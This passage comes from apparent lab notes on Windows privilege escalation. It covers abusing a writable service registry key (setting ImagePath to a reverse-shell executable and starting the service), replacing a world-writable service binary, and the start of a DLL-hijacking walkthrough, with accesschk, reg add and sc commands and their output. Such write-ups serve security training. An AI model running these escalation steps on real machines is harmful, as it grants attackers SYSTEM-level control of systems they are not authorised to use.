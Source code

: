 ```

SERVICE_NAME: regsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Insecure Registry Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem

```
- Some cool fact is that the path is quotes so no **Unquoted Service Path**.
- Now lets run `accesschk.exe` and lets dig deep, so run `accesschk /acceptula -uvwqk <path of registry>`(which is `HKLM\system\currentcontrolset\services\regsvc`)
- look for `RW NT AUTHORITY\INTERACTIVE(KEY_ALL_ACCESS)` in output and we're now good to exploit.
- Noe lets see the options within the registry by using `reg query HKLM\system\currentcontrolset\services\regsvc` and I found an options called `ImagePath` which takes executable value, so lets exploit it. First of all create a reverse-shell.
- Now run `reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f`, choose path of payload according to ur requirement.
- Now run the service, `net start regsvc` and hurray! I got the shell.

### Insecure Service Executables:
- Here the File permissions of a service is accessible by all! We try to change the executable of the service and we're good to go!
- Lets run **Winpeas** specifically with **servicesinfo** module and lets see anything interesting, and the output is,
```
filepermsvc(File Permissions Service)["C:\Program Files\File Permissions Service\filepermservice.exe"] - Manual - Stopped
    File Permissions: Everyone [AllAccess]

```
- Everyone have access to the file for the service `filepermsvc`, so we'll create a payload a reverse_shell and replace that with the executable of the service and we'll obtain shell.
- This is kind of easy compared to above.

### DLL Hijacking:

- Often a service will try to load functionality from a library called a ``DLL(dynamic-link library)`.
- Whatever functionality the DLL provides, will be executed with the same privileges as the service that loaded it.
- If a DLL is loaded with the absolute path, it might be possible to escalate privileges if that DLL is `writable by our user`.
- check permission to start and stop DLL vul. services
    `C:\PrivEsc\accesschk.exe /accepteula -quvc dllsvc`
- Query the "filepermsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME).
    `sc qc dllsvc`
```
C:\Users\user>sc qc dllsvc
sc qc dllsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: dllsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\DLL Hijack Service\dllhijackservice.exe"
```